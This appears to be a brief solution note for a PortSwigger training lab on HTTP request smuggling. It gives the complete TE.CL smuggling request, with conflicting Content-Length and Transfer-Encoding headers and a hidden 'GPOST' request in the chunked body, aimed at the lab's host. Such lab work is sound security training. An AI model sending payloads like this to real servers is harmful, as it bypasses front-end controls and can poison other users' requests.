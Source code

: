 https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

``` HTTP
POST / HTTP/1.1
Host: 0a3a0027042671d380d6c118008300f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![[Pasted image 20250818010732.png]]